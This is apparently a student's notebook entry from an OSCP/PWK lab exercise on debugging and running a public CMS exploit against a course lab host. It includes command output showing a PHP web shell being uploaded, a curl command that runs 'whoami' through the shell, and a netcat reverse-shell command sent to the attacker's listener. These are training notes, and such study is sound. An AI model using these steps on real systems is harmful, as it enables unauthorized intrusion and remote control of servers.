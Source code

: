 15.2.4.1

# 15.2.4.1
## 15.2.4.1.1. Observe the error that is generated when running the exploit.
Here is the error
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms$ python 44976_modified.py 
/home/kali/.local/lib/python2.7/site-packages/urllib3/connectionpool.py:988: InsecureRequestWarning: Unverified HTTPS request is being made to host '192.168.214.44'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
  InsecureRequestWarning,
[+] Authenticated successfully with the supplied credentials
Traceback (most recent call last):
  File "44976_modified.py", line 103, in <module>
    run()
  File "44976_modified.py", line 94, in run
    cookies,csrf_token = authenticate()
  File "44976_modified.py", line 38, in authenticate
    return response.cookies, parse_csrf_token(response.headers['Location'])
  File "44976_modified.py", line 24, in parse_csrf_token
    return location.split(csrf_param + "=")[1]
IndexError: list index out of range
```


## 15.2.4.1.2. Attempt to troubleshoot the code and determine why the error occurs.

Add a print statement to see what is passed to the parse_csrf_token function. Here is the output:
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms$ python 44976_modified.py 
...
[+] String that is being split: https://192.168.214.44/admin?_sk_=d2ea2feb7eb09c65a41
...
```



## 15.2.4.1.3. Modify the exploit in order to avoid the error and run it against your dedicated Linux client.
Change the csrf_param variable
![379168bbe78d966fc5ec74ec04b07f05.png](:/0c891b8faf4f47babe292721e1a2d74f)




## 15.2.4.1.4. Verify that your exploit worked by attempting to execute the *whoami* command using the remote php shell.

Run the exploit:
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms$ python 44976_modified.py 
/home/kali/.local/lib/python2.7/site-packages/urllib3/connectionpool.py:988: InsecureRequestWarning: Unverified HTTPS request is being made to host '192.168.214.44'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
  InsecureRequestWarning,
[+] Authenticated successfully with the supplied credentials
[*] Attempting to upload cmsmsrce.txt...
...
[+] Successfully uploaded cmsmsrce.txt
[*] Attempting to copy cmsmsrce.txt to shell.php...
...
[+] File copied successfully
[+] Exploit succeeded, shell can be found at: https://192.168.214.44/uploads/shell.php
```

Validate the exploit by attaching to the php shell with curl
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms$ curl -k https://192.168.214.44/uploads/shell.php?cmd=whoami
www-data
```


## 15.2.4.1.5. Attempt to obtain a fully interactive shell with this exploit.

Open a netcat listener on Kali
```plaintext
kali@kali:~$ sudo nc -lnvp 4444
[sudo] password for kali: 
listening on [any] 4444 ...
```

Run a netcat cmd on the exploit to connect to our Kali machine.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/cms$ curl -k https://192.168.214.44/uploads/shell.php?cmd=nc+-nv+192.168.119.214+4444+-e+/bin/bash
```

Notice we have a shell
![34f36b8c720d6bd92a09001c071088c0.png](:/24fc596d96c24d6cbc601301dda13123)









id: e5187928193349879fd3296e1984fedf
parent_id: 56907e58a0944c6396f404c03d639f7e
created_time: 2020-09-26T18:16:00.323Z
updated_time: 2020-09-29T00:27:21.748Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-26T18:16:00.323Z
user_updated_time: 2020-09-29T00:27:21.748Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1